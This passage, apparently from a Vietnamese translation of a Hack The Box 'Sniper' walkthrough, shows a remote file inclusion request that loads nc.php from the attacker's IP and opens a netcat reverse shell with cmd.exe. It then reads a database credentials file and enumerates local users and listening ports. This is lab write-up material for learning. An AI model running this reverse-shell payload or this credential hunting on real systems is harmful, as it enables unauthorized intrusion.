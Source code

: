 Để tải shell, tác giả sẽ tải netcat lên máy chủ bằng `GET /blog/?lang=//10.10.14.11/test/nc.php&cmd=c:\programdata\nc.exe+-e+cmd.exe+10.10.14.11+80`

![17](https://snowscan.io/assets/images/htb-writeup-sniper/shell.png)

## Liệt kê máy
Điều đầu tiên kiểm tra là tệp `C:\inetpub\wwwroot\user\db.php` được cổng đăng nhập sử dụng để tôi có thể xem thông tin đăng nhập nào được sử dụng để kết nối với cơ sở dữ liệu

```php
<?php
// Enter your Host, username, password, database below.
// I left password empty because i do not set password on localhost.
$con = mysqli_connect("localhost","dbuser","36mEAhz/B8xQ~2VM","sniper");
// Check connection
if (mysqli_connect_errno())
  {
  echo "Failed to connect to MySQL: " . mysqli_connect_error();
  }
?>
```

Sau đó, kiểm tra những người dùng cục bộ nào hiện diện trên hộp:

```powershell
C:\>net users

User accounts for \\

-------------------------------------------------------------------------------
Administrator            Chris                    DefaultAccount
Guest                    WDAGUtilityAccount
```
Bước hợp lý tiếp theo là truy cập vào người dùng `Chris`:

```powershell
...
Local Group Memberships      *Remote Management Users
Global Group memberships     *None
...
```
Chris là một phần của nhóm Người dùng Quản lý Từ xa và WinRM đang nghe trên cổng 5985 nhưng bị tường lửa chặn từ bên ngoài.

```powershell
C:\>netstat -an

Active Connections

  Proto  Local Address          Foreign Address        State
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:3306           0.0.0.0:0              LISTENING
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING
  TCP    0.0.0.0:33060          0.0.0.0:0              LISTENING
[...]
...
```
